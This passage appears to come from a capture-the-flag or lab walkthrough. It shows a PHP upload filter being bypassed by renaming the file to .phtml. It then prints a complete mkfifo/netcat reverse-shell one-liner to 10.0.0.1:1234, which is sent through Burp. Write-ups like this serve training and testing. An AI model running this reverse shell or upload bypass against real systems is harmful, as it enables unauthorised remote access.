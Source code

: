 ![](20.png)

But we see that it doesn't interpret the PHP code.

![](21.png)

We try to rename it to *.phtml*, run the exploit again and now we see that it works.

![](22.png)

##### Reverse shell code:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

We listen to **netcat**, take the request to **Burp**, encode the code and send the request.

![](23.png)
